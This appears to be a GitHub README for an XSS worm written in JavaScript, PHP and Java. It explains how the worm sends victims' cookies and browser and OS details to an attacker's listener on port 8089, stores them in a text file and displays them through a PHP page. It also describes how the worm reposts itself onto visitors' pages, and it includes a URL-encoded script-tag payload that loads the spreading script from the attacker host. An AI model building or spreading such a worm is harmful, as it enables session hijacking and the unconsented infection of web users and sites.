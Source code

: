 # XSS-Worm
XSS Worm which steals cookies and some information of victim's, also spreads others. Written in js, php and java.

## Stealing
The worm will send cookies and some other information (like browser and os) to the attacker (attacker presented as localhost in the script).
1. The script inside **javascript/worm.js** need to be embedded into attackers webpage somehow.
2. Attacker will listen a port (8089 in this case) to receive stealed data sent from worm. And incoming data will be printed to a text file (named "cookies.txt"). Here the file **tcp/Main.java will** do the trick.
3. Finally, attacker can display stealed information with **web/innocentwebapp.php** file which parses "cookies.txt" file.

## Spreading
The worm will spread(post) itself to anyone's webpage who *involuntarily* run the script **javascript/worm.js**.
1. Worm has a part which sends a request to **web/agentsmith.php** and post its response to the webpage whom visits the contagious page.(To make the request properly, data must be URL encoded.)
```javascript
var agentsmith = "%3Cscript%20type%3D%5C%22text%2Fjavascript%5C%22%20src%3D%5C%22http%3A%2F%2Flocalhost%2Fagentsmith.php%5C%22%3E%3C%2Fscript%3E";
```

2. If the worm posted succefully to victims webpage, who visits the victims contagious page will be also exploited.
